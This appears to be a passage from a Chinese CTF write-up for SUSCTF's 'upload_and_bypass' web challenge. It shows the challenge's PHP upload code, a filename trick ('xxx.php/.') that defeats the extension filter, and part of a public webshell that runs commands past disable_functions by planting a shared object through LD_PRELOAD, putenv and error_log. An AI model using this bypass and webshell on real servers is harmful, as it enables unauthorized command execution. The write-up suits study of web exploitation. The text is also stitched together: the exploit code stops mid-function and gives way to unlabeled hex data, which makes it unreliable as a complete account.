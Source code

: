 ```
SUSCTF{68a4f1b522745ec22b4065f309bf98ba}
```

## [web]upload_and_bypass

这题题目给出提示，绕过上传文件名检查，以及发送一个webshell，并且要绕过disable_function。同样以前没做过这种题，只能光速学习。

首先了解到`xxx.php/.`这样的文件名可以绕过后缀检查，成功上传，其次在Github上找了[这一个](https://github.com/l3m0n/Bypass_Disable_functions_Shell)现成的webshell，先上传上去看看效果。

```php
<?php
     if(isset($_POST['c']) && isset($_POST['f'])){
     
       $userdir = "upload/".md5($_SERVER['REMOTE_ADDR']);
       if(!file_exists($userdir)){
            mkdir($userdir);
       }
       $content = $_POST['c'];
       $filename = $_POST['f'];
       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("go out!");
       }else{
           $f = fopen($userdir."/".$filename, 'w');
           fwrite($f, $content);
           fclose($f);
     }
     }
     else{
         highlight_file(__FILE__);
     }
     
?>
```

了解到文件存放在`/upload/IP的MD5`下，尝试访问

![image-20201020123752311](https://timg.reito.fun/archive/typora-schwarzer/image-20201020123752311.png)

看到有`error_log`，`putenv`，`ini_set`可以被利用。于是选用了该webshell的这个利用函数

```php
function recv_result($result = 'result') {
    $ret = read_file($result);
    @unlink($result);
    return $ret;
}

function ld_preload_exec_cmd($cmd) {
    $so_file = WRITE_DIR . 'system.so';

    if (ARCH === 64) {
        write_file($so_file, hex2bin($GLOBALS['system_so_x64']));
    } else {
        write_file($so_file, hex2bin($GLOBALS['system_so_x32']));
    }

    $cmd_arr = send_cmd($cmd, 'result');
    putenv("EVIL_CMDLINE=" . $cmd_arr[0]);
    putenv("LD_PRELOAD=" . $so_file);

    if (function_exists('error_log')){
        error_log("", 1, "example@example.com");
    } elseif (function_exists('mail')){
        mail("", "", "", "");
```

[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000
